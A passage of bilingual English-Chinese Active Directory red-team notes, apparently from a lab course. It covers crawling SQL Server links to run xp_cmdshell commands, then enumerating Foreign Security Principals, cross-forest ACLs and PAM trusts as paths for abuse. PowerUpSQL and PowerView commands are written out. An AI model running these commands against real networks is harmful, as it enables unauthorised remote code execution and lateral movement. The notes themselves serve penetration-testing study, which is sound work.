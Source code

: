 Abusing links to remote servers (without -QueryTarget the command tries to use xp_cmdshell on every link of the chain)（滥用远程服务器上的链接（尝试在每个链接下使用xp_cmdshell））
```
Get-SQLServerLinkCrawl -Instance us-mssql.us.techcorp.local -Query 'exec master..xp_cmdshell' 'whoami''' -QueryTarget db-sqlsrv
```

# Foreign Security Principals


• A Foreign Security Principal (FSP) represents a Security Principal in a external forest trust or special identities (like Authenticated Users,Enterprise DCs etc.).（外部安全主体 (FSP) 代表外部林信任或特殊身份（如经过身份验证的用户、企业 DC 等）中的安全主体。）

• Only SID of a FSP is stored in the Foreign Security Principal Container which can be resolved using the trust relationship.（只有FSP 的SID 存储在可以使用信任关系解析的外部安全主体容器中。）

• FSP allows external principals to be added to domain local security groups. Thus, allowing such principals to access resources in the forest.（FSP 允许将外部主体添加到域本地安全组。 因此，允许此类主体访问森林中的资源。）

• Often, FSPs are ignored, mis-configured or too complex to change/cleanup in an enterprise making them ripe for abuse.（通常，FSP 被忽略、配置错误或过于复杂而无法在企业中更改/清理，从而使它们成为滥用的时机。）


## 枚举 FSPs

PowerView:
```
Find-ForeignGroup -Verbose
Find-ForeignUser -Verbose
```

ActiveDirectory module:
```
Get-ADObject -Filter {objectClass -eq "foreignSecurityPrincipal"}
```

# ACLs

• Access to resources in a forest trust can also be provided without using FSPs using ACLs.(也可以在不使用FSP 的情况下通过ACL 提供对森林信任中资源的访问。)

• Principals added to ACLs do NOT show up in the ForeignSecurityPrinicpals container as the container is populated only when a principal is added to a domain local security group.(添加到ACL 的主体不会显示在ForeignSecurityPrinicpals 容器中，因为仅在将主体添加到域本地安全组时才会填充容器。)

枚举
```
Find-InterestingDomainAcl -Domain dbvendor.local
```

# Abusing PAM Trust

• PAM trust is usually enabled between a Bastion or Red forest and a production/user forest which it manages.（PAM信任通常在Bastion或Red森林和它所管理的生产/用户森林之间启用。）
